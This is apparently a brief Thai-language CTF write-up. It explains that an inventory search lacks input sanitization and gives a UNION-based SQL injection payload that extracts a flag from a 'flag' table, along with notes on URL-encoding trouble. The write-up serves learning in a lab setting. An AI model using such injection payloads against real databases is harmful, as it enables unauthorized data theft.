







ไม่มี validate imput ,sanitize input เลย ทำ SQL Injection ได้

SELECT * FROM inventory WHERE name LIKE '%%' UNION SELECT 1,flag,'','','2024-01-16 14:22:00' FROM flag; -- -%'

ปัญหาที่เจอ

พยายามไม่ใช้ burp url encode ทำ SQL payload บน browser เลย

รัน docker แล้ว console.log(`Executing query: ${sqlQuery}`); จะสังเกตว่า มันไม่ยอม decode ให้ น่าจะเจอ %% ติดกันแล้วงง

